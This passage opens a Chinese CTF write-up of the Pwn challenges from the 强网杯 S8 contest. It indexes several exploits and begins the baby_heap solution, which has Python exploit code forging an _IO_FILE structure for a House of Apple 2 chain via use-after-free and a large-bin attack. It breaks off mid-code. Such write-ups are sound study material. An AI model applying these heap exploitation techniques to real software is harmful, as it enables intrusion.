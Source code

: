 ```yaml
---
title: 强网杯S8 初&决赛 - Pwn 个人题解 // 基本结束
published: true
---
```


| 目录跳转: |
|--------|
| [初赛 PWN: baby_heap 特解 - 附Exp](#pwn-baby_heap-特解) |
| [初赛 PWN: baby_heap 通解 (bk_nextsize + House of Apple) - 附Exp](#pwn-baby_heap-通解) |
| [初赛 PWN: expect_number - 附Exp](#pwn-expect_number) |
| [初赛 PWN: prpr - 未更新](#pwn-prpr) |
| [初赛 PWN: chat_with_me 特解 - 附Exp](#pwn-chat_with_me-特解) |
| [初赛 PWN: qroute - 附 Exp](#pwn-qroute) |
| [决赛 PWN: heap (Unsafe Unlink) - 附Exp](#pwn-heap) |
| [决赛 PWN: ez_heap - 附 Exp](#pwn-ez_heap) |
| [决赛 PWN: qvm - 未更新](#pwn-qvm) |
 
| 文件下载: |
|--------|
| [baby_heap.zip](/image/qwbs8/baby_heap.zip) |
| [expect_number.zip](/image/qwbs8/expect_number.zip) |
| [prpr.zip](/image/qwbs8/prpr.zip) |
| [chat_with_me.zip](/image/qwbs8/chat_with_me.zip) |
| [heap.zip](/image/qwbs8/heap.zip) |
| [ez_heap.zip](/image/qwbs8/ez_heap.zip) |
| [qroute.zip](/image/qwbs8/qroute.zip) |

# [](#header-3)pwn baby_heap 通解

这个题很适合当 large bin 大堆溢出打 House of Apple 2 链的板子题. 但是如果真这样做，会绕很多弯路，最优解应该是利用到 Secret Shop 修改 got 表  
通解没有利用到 Secret Shop 和 print_env，而是直接用的 large chunk 来打  

这个程序在堆已经被 释放 后依然可以向该堆写入内容，因此有了可乘之机. 首先构造 House of Apple 2 通用板子

```py
# 伪造 struct _IO_FILE_complete_plus
struct_file = flat({
	# struct _IO_FILE_complete -> _IO_FILE
	0:      0,                                          # file._flag
	0x18:   p64(leave_ret_c),                           # file._IO_read_base
	0x28:   p64(libc.symbols['_IO_list_all'] - 0x20),   # 写 IO_list_all - 0x20 的地址至 bk_size，下一次分配小堆元素时就会分配到这里
	0x48: 	p64(orw_addr),                              # file._IO_save_base
	0x88:   p64(lock),                                  # file._lock
	# struct _IO_FILE_complete
	0xa0:   p64(widedata_addr),                         # file._wide_data 
	# struct
	0xd8:   p64(wfile),                                 # file._vtable
}, filler=b'\0')

# 伪造 struct _IO_wide_data
struct_widedata  = flat({
```